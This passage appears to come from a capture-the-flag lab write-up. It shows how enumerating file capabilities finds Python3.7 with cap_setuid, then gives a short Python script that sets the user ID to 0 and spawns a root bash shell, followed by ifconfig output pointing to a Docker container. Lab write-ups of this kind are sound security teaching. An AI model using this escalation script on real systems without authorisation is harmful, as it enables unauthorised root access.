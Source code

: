 This command searches all files the current user has access to for special capabilities available to the files. There are certain capabilities that allow users to run commands as an elevated user. This is the enumeration that reveals the privilege escalation vector for this machine. After running this command, it is revelaed that Python3.7 has been given the `cap_setuid` capability. This capability allows Python3 to set the setuid flag and execute system commands as root. This capability can be used to spawn a root shell or open up a root reverse shell (and more).

Script to spawn a root shell:

```python
#!/usr/bin/env python3

import os

os.setuid(0) # set this to run as root
command = "/bin/bash" # change this to do what you want as root
os.system(command) # execute command as root
```

After the script above is run, the attacker will have an elevated foothold. The `user.txt` flag is located inside `/root`. 

## Root Flag

If the user is root, and the flag obtained is `user.txt`, where is `root.txt`? The answer can be found by looking at the networking information:

Command:

```bash
ifconfig
```

Result:

```bash
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 1611  bytes 1110912 (1.0 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1104  bytes 1467035 (1.3 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Taking a look at `eth0` shows an IP address commonly used in Docker configurations. It appears this webserver is inside a Docker container.
